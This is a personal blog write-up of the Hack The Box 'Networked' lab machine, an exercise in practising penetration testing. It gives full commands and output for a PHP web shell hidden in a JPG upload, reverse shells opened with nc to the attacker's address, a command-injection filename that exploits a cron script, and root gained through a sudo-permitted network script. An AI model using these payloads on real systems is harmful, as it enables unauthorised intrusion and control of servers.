







 

## Summary

Networked just retired today. It was a pretty easy machine and I had the chance to practice my command injection skills. Its IP address is `10.10.10.146` and I added it to `/etc/hosts` as `networked.htb` to make accessing the machine easier. Without further ado, let’s jump right in!

## Scanning & Web App Enumeration

A light nmap scan is all I needed to start attacking the box:


root@fury-battlestation:~/htb/blog/networked# nmap -sV -O networked.htb -oN scan.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-09 04:48 EST
Nmap scan report for networked.htb (10.10.10.146)
Host is up (0.12s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
443/tcp closed https
Aggressive OS guesses: Linux 3.10 - 4.11 (94%), HP P2000 G3 NAS device (91%), Linux 3.2 - 4.9 (91%), Linux 3.13 (90%), Linux 3.13 or 4.2 (90%), Linux 3.16 - 4.6 (90%), Linux 4.10 (90%), Linux 4.2 (90%), Linux 4.4 (90%), Asus RT-AC66U WAP (90%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.67 seconds
root@fury-battlestation:~/htb/blog/networked#



The index.html of the site was pretty basic:

There was also a hidden comment on the page:

I ran `dirb` on the page and found a directory named `backup`:


root@fury-battlestation:~/htb/blog/networked# dirb http://networked.htb

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Nov  9 05:02:02 2019
URL_BASE: http://networked.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://networked.htb/ ----
==> DIRECTORY: http://networked.htb/backup/                                                      
+ http://networked.htb/cgi-bin/ (CODE:403|SIZE:210)                                              
+ http://networked.htb/index.php (CODE:200|SIZE:229)                                             
==> DIRECTORY: http://networked.htb/uploads/                                                     
                                                                                                 
---- Entering directory: http://networked.htb/backup/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                 
---- Entering directory: http://networked.htb/uploads/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Sat Nov  9 05:14:28 2019
DOWNLOADED: 4612 - FOUND: 2
root@fury-battlestation:~/htb/blog/networked#



A file named `backup.tar` could be found in the directory:

I downloaded it and started looking through the source code:


root@fury-battlestation:~/htb/blog/networked# wget http://networked.htb/backup/backup.tar
--2019-11-09 05:05:51--  http://networked.htb/backup/backup.tar
Resolving networked.htb (networked.htb)... 10.10.10.146
Connecting to networked.htb (networked.htb)|10.10.10.146|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10240 (10K) [application/x-tar]
Saving to: ‘backup.tar’

backup.tar               100%[================================>]  10.00K  --.-KB/s    in 0s      

2019-11-09 05:05:51 (20.9 MB/s) - ‘backup.tar’ saved [10240/10240]

root@fury-battlestation:~/htb/blog/networked# tar xvf backup.tar 
index.php
lib.php
photos.php
upload.php
root@fury-battlestation:~/htb/blog/networked#



## Shell as www-data

Looking through the source, I didn’t find any major vulnerability that would allow me to change the uploaded file extension. However, the resulting file would keep all the extensions it has (e.g. `a.php.jpg` would be renamed `[something].php.jpg`). After re-reading the source code a few times, I tried to just append PHP code at the end of an image file and hope that the server will execute it if the filename contains `.php`:


root@fury-battlestation:~/htb/blog/networked# cp ~/Pictures/yakuhito.jpg .
root@fury-battlestation:~/htb/blog/networked# echo '<?php echo shell_exec($_GET["cmd"]); ?>' >> ./yakuhito.jpg 
root@fury-battlestation:~/htb/blog/networked# cp yakuhito.jpg yakuhito.php.jpg



I then uploaded the file by going to `/upload.php`:

After that, I browsed to `/photos.php`, right-licked the image I just uploaded and click on ‘View Image’ so my browser would take me to the site’s uploads directory.

The server didn’t interpret the file as an image. In other words, the server found `.php` in the filename and interpreted it as a PHP script. I tried to supply a simple command via the `cmd` parameter and see if I had command execution:

The `id` command was successfully executed. Moreover, I could see the output at the end of the page. With that in mind, I used `nc` to spawn a reverse shell on port 443:


http://networked.htb/uploads/10_10_14_140.php.jpg?cmd=nc%2010.10.14.140%20443%20-e%20/bin/bash



As soon as I got the reverse shell, I spawned a tty:


root@fury-battlestation:~/htb/blog/networked# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.140] from (UNKNOWN) [10.10.10.146] 51886
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ wwhhoamoamii

apache
bash-4.2$ llss

10_10_14_140.php.jpg  127_0_0_1.png  127_0_0_3.png  index.html
10_10_14_207.php.png  127_0_0_2.png  127_0_0_4.png
bash-4.2$



## Shell as guly

After that, I started enumerating and searching for a way to get user. The first thing I did was to see if there is another user on the machine:


bash-4.2$ llss  //hhoommee

guly
bash-4.2$



The user seemed to have a crontab file, so I checked its contents:


bash-4.2$ lsls  /h/ohmeo/me/gugluyly

check_attack.php  crontab.guly	user.txt
bash-4.2$ ccaatt  //hhoommee//gguullyy//ccrroonnttaabb..gguullyy

*/3 * * * * php /home/guly/check_attack.php
bash-4.2$ 



Basically, the following script would be ran regularly:


<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
	$msg='';
  if ($value == 'index.html') {
	continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>



There’s a simple command injection vulnerability in that script. I used `touch ;$(nc 10.10.14.140 444 -c bash);` to create a file that would get me a reverse shell whenever the script is executed. After waiting for about three minutes, I got the shell:


root@fury-battlestation:~/htb/blog/networked# nc -nvlp 444
listening on [any] 444 ...
connect to [10.10.14.140] from (UNKNOWN) [10.10.10.146] 42280
python -c "import pty; pty.spawn('/bin/bash')"
[guly@networked ~]$ wc /home/guly/user.txt
wc /home/guly/user.txt
 1  1 33 /home/guly/user.txt
[guly@networked ~]$



I will not post the contents of `user.txt` here, however, I will say that the proof starts with `52` 🙂

## Getting root

After getting the user proof, I started enumerating the host. While doing that, I found an interesting `/etc/sudoers` entry:


[guly@networked .ssh]$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
[guly@networked .ssh]$



The current user can run `/usr/local/sbin/changename.sh` without providing a password. The script’s source is pretty simple:


DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo "interface $var:"
	read x
	while [[ ! $x =~ $regexp ]]; do
		echo "wrong input, try again"
		echo "interface $var:"
		read x
	done
	echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0



To be honest, I discovered the method to get root through fuzzing and trying different payloads.

EDIT: [Found the explanation!](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f) (source: [0xRick’s blog](https://0xrick.github.io/hack-the-box/networked/))


[guly@networked .ssh]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
garbage /bin/bash
garbage /bin/bash
interface PROXY_METHOD:
garbage /bin/bash
garbage /bin/bash
interface BROWSER_ONLY:
garbage /bin/bash
garbage /bin/bash
interface BOOTPROTO:
garbage /bin/bash
garbage /bin/bash
[root@networked network-scripts]#



Note that the input is doubled because it was sent via `nc`, not because I entered it 2 times.


[root@networked network-scripts]# wc /root/root.txt
wc /root/root.txt
 1  1 33 /root/root.txt
[root@networked network-scripts]#



The root proof starts with `0a` 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/yakuhito). 🙂

Until next time, hack the world.

yakuhito, over.

